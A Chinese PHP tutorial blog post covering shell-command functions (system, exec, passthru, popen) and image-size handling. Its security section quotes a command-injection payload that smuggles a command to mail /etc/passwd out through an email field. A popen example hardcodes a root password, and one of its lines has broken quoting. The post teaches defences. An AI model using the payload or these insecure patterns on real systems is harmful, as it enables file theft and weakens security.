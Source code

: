 # [PHP高级语法总结][0]

2月15日发布 

[TOC]

> php高级语法总结。

## 一、执行系统外部命令

1. system() 输出并返回最后一行shell结果。
1. exec() 不输出结果，返回最后一行shell结果，所有结果可以保存到一个返回的数组里面。
1. passthru() 只调用命令，把命令的运行结果原样地直接输出到标准输出设备上。

相同点：都可以获得命令执行的状态码

### 1）用PHP提供的专门函数

PHP提供共了3个专门的执行外部命令的函数：system()，exec()，passthru()。 

**system()**  
原型：string system (string command [, int return_var])  
system()函数很其它语言中的差不多，它执行给定的命令，输出和返回结果。第二个参数是可选的，用来得到命令执行后的状态码。   
例子：   

```php
<?php 
system("/usr/local/bin/webalizer/webalizer"); 
```

**exec()**  
原型：string exec (string command [, string array [, int return_var]])  
exec ()函数与system()类似，也执行给定的命令，但不输出结果，而是返回结果的最后一行。虽然它只返回命令结果的最后一行，但用第二个参数array 可以得到完整的结果，方法是把结果逐行追加到array的结尾处。所以**如果array不是空的，在调用之前最好用unset()最它清掉**。只有指定了第二 个参数时，才可以用第三个参数，用来取得命令执行的状态码。

```php
<?php 
exec("/bin/ls -l"); 
exec("/bin/ls -l", $res); 
exec("/bin/ls -l", $res, $rc); 
```

我们可以exec()这个方法获取服务器端的IP

    // 注意：ipconfig是Windows下的查看命令，而Linux为ifconfig命令
    exec('ifconfig -a', $arr);
    print_r($arr);

**passthru()**  
原型：void passthru (string command [, int return_var])  
passthru ()只调用命令，不返回任何结果，但把命令的运行结果原样地直接输出到标准输出设备上。所以passthru()函数经常用来调用象pbmplus （Unix下的一个处理图片的工具，输出二进制的原始图片的流）这样的程序。同样它也可以得到命令执行的状态码。   
例子：   

```php
<?php 
header("Content-type: image/gif"); 
passthru("./ppmtogif hunte.ppm"); 
```

### 2） 用popen()函数打开进程

上面的方法只能简单地执行命令，却不能与命令交互。但有些时候必须向命令输入一些东西，如在增加Linux的系统用户时，要调用su来把当前用户换到root才行，而su命令必须要在命令行上输入root的密码。这种情况下，用上面提到的方法显然是不行的。 

popen ()函数打开一个进程管道来执行给定的命令，返回一个文件句柄。既然返回的是一个文件句柄，那么就可以对它读和写了。在PHP3中，对这种句柄只能做单一 的操作模式，要么写，要么读；从PHP4开始，可以同时读和写了。除非这个句柄是以一种模式（读或写）打开的，否则必须调用pclose()函数来关闭 它。   
例子1：   

```php
<?php 
$fp=popen("/bin/ls -l", "r"); 
```

示例2：

```php
<?php 
/* PHP中如何增加一个系统用户 
下面是一段例程，增加一个名字为james的用户, 
root密码是 verygood。仅供参考 
*/ 
$sucommand = "su --login root --command"; 
$useradd = "useradd "; 
$rootpasswd = "verygood"; 
$user = "james"; 
$user_add = sprintf("%s "%s %s"",$sucommand,$useradd,$user); 
$fp = @popen($user_add,"w"); 
@fputs($fp,$rootpasswd); 
@pclose($fp); 
```

### 3）系统命令实际项目中应用示例
```php
//查找到php安装位置
$phpcmd = exec("which php");
print_r($phpcmd);
// 输出结果  /usr/bin/php   

$arr = array();
$ret = exec("/bin/ls -l", $arr); 
print_r($ret);
print_r($arr);
```

### 4)使用外部命令需要注意的安全性

比如，你有一家小型的网上商店，所以可以出售的产品列表放在一个文件中。你编写了一个有表单的HTML文件，让你的用户输入他们的EMAIL地 址，然后把这个产品列表发给他们。假设你没有使用PHP的mail()函数（或者从未听说过），你就调用Linux/Unix系统的mail程序来发送这 个文件。程序就象这样：   

```php
<?php 
system("mail $to < products.txt"); 
echo "我们的产品目录已经发送到你的信箱：$to"; 
```

用这段代码，一般的用户不会产生什么危险，但实际上存在着非常大的安全漏洞。如果有个恶意的用户输入了这样一个EMAIL地址：

    '--bla ; mail someone@domain.com < /etc/passwd ;' 

那么这条命令最终变成：

    'mail --bla ; mail someone@domain.com < /etc/passwd ; < products.txt' 

我相信，无论哪个网络管理人员见到这样的命令，都会吓出一身冷汗来。   
幸 好，PHP为我们提供了两个函数：EscapeShellCmd()和EscapeShellArg()。函数EscapeShellCmd把一个字符串 中所有可能瞒过Shell而去执行另外一个命令的字符转义。这些字符在Shell中是有特殊含义的，象分号（），重定向（>）和从文件读入 （<）等。函数EscapeShellArg是用来处理命令的参数的。它在给定的字符串两边加上单引号，并把字符串中的单引号转义，这样这个字符串 就可以安全地作为命令的参数。   
再来看看超时问题。如果要执行的命令要花费很长的时间，那么应该把这个命令放到系统的后台去运 行。但在默认情况下，象system()等函数要等到这个命令运行完才返回（实际上是要等命令的输出结果），这肯定会引起PHP脚本的超时。解决的办法是 把命令的输出重定向到另外一个文件或流中，如：   

```php
<?php 
system("/usr/local/bin/order_proc > /tmp/null &"); 
```

### 5)、高级命令实际项目中应用：

[自己实现异步执行任务的队列（二）][11]

    do_queue.php部分代码：
    
    $phpcmd = exec("which php");    //查找到php安装位置
    $cqueue = new Queue();
    $tasks = $cqueue->getQueueTask(200);
    foreach ($tasks as $t)
    {
        $taskphp = $t['taskphp'];
        $param = $t['param'];
        $job = $phpcmd . " " . escapeshellarg($taskphp) . " " . escapeshellarg($param);
        system($job);
    }

## 二、图片处理

### 1) 取得图像大小

array getimagesize ( string $filename [, array &$imageinfo ] )  
getimagesize() 函数将测定任何 GIF，JPG，PNG，SWF，SWC，PSD，TIFF，BMP，IFF，JP2，JPX，JB2，JPC，XBM 或 WBMP 图像文件的大小并返回图像的尺寸以及文件类型和一个可以用于普通 HTML 文件中 IMG 标记中的 height/width 文本字符串。

如果不能访问 filename 指定的图像或者其不是有效的图像，getimagesize() 将返回 FALSE 并产生一条 E_WARNING 级的错误。

[getimagesize()][12]官方文档说明。

示例，获取图片大小：

    $url = "http://img2.fengniao.com/product/157/367/ce0Ar9cBeSl2A.jpg";
    $ret = getimagesize($url);
    var_dump($ret);

打印结果：

    Array
    (
        [0] => 2100
        [1] => 1280
        [2] => 2
        [3] => width="2100" height="1280"
        [bits] => 8
        [channels] => 3
        [mime] => image/jpeg
    )

```php
<?php
$size = getimagesize($filename);
$fp=fopen($filename, "rb");
if ($size && $fp) {
  header("Content-type: {$size['mime']}");
  fpassthru($fp);
  exit;
} else {
  // error
}
```

相关文章：  
[PHP 执行系统外部命令 system() exec() passthru()][13]  
[PHP中exec与system用法区别][14]

[0]: https://segmentfault.com/a/1190000008352884
[11]: https://segmentfault.com/a/1190000000525775
[12]: http://php.net/manual/zh/function.getimagesize.php
[13]: http://www.jb51.net/article/19618.htm
[14]: http://www.jb51.net/article/55455.htm